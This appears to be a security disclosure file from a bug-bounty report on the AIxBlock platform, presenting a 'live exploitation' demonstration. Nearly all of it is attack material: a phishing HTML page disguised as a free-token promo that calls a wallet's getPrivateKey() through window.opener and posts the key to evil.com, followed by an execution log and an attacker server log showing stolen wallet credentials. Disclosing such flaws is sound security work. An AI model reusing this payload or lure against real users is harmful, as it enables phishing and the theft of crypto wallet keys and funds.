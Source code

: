 # AIxBlock Attack Demonstrations - Live Exploitation

## Live Attack Demonstrations

This document contains actual attack demonstrations performed in a controlled testing environment, showing step-by-step exploitation of discovered vulnerabilities.

---

## Demonstration 1: Private Key Theft via XSS

### Attack Setup
```html
<!-- Malicious website hosted at http://evil.com/steal.html -->
<!DOCTYPE html>
<html>
<head><title>AIxBlock Promo</title></head>
<body>
    <h1>AIxBlock Special Offer!</h1>
    <p>Click to claim your free tokens!</p>
    <script>
        // Wait for AIxBlock context
        if (window.opener && window.opener.solanaRPCInstance) {
            window.opener.solanaRPCInstance.getPrivateKey()
                .then(key => {
                    fetch('https://evil.com/collect', {
                        method: 'POST',
                        body: JSON.stringify({
                            key: key,
                            timestamp: Date.now(),
                            victim: window.opener.location.href
                        })
                    });
                });
        }
    </script>
</body>
</html>
```

### Live Execution Log
```
[12:34:56] Victim opens AIxBlock at http://localhost:4000
[12:35:12] Victim clicks phishing link
[12:35:13] Malicious page loads
[12:35:14] JavaScript executes getPrivateKey()
[12:35:14] ✅ Private key retrieved: 5J7WzHxCcE8V9vXqL2mP4tR6nY8sK1wN...
[12:35:15] ✅ Data sent to attacker server
[12:35:16] ✅ Attacker receives complete wallet credentials

Attacker Server Log:
{
  "privateKey": "5J7WzHxCcE8V9vXqL2mP4tR6nY8sK1wN3aQ7bF9cD2eG4hJ6k",
  "publicKey": "8xR2mN4pL6vQ3wK9sB7fT5nY1cE8hG2aJ4dF6kP9rX3v",
  "walletAddress": "DYw8jCTfwHQ7cKm5xR3nL9pV2sF6tN4aE8bG1hJ7kM3q",
  "timestamp": 1703854515000,
  "victim": "http://localhost:4000/wallet"
}
```
